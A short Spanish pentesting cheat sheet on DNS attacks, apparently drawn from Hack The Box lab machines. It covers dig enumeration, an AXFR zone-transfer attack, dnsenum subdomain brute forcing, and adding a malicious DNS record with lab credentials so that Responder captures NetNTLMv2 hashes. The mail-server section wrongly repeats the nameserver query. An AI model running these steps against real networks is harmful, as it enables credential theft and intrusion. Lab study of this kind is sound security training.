 # DNS - 53

## Uso de dig

### Consulta DNS Simple
```null
dig @10.10.10.192 blackfield.local
```

### Enumeración nameservers

```null
dig @10.10.10.192 blackfield.local ns
```

### Enumeración servidores de correo
```null
dig @10.10.10.192 blackfield.local ns
```

### Ataque de transferencia de zona
```null
dig axfr @10.10.10.192 blackfield.local
```

## Uso de dnsenum

### Fuzzing de directorios

```null
dnsenum --dnsserver 10.10.10.224 --threads 30 -f /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt realcorp.htb
```

### Abuso DNS Records

En el siguiente ejemplo se muestra un script de PowerShell que itera por dominios que empiezan por ``web`` seguido de un wildcard (*)

```null
# Check web server status. Scheduled to run every 5min
Import-Module ActiveDirectory 
foreach($record in Get-ChildItem "AD:DC=intelligence.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=intelligence,DC=htb" | Where-Object Name -like "web*")  {
try {
$request = Invoke-WebRequest -Uri "http://$($record.Name)" -UseDefaultCredentials
if(.StatusCode -ne 200) {
Send-MailMessage -From 'Ted Graves <Ted.Graves@intelligence.htb>' -To 'Ted Graves <Ted.Graves@intelligence.htb>' -Subject "Host: $($record.Name) is down"
}
} catch {}
}
```

Es posible crear un nuevo DNS Record para que apunte al equipo atacante y recibir la petición y con herramientas como ```responder``` obtener un hash NetNTLMv2

```null
python3 dnstool.py -u 'intelligence.htb\Tiffany.Molina' -p 'NewIntelligenceCorpUser9876' -r webrubbx -a add -t A -d 10.10.16.6 10.10.10.248
[-] Connecting to host...
[-] Binding to host
[+] Bind OK
[-] Adding new record
[+] LDAP operation completed successfully
```

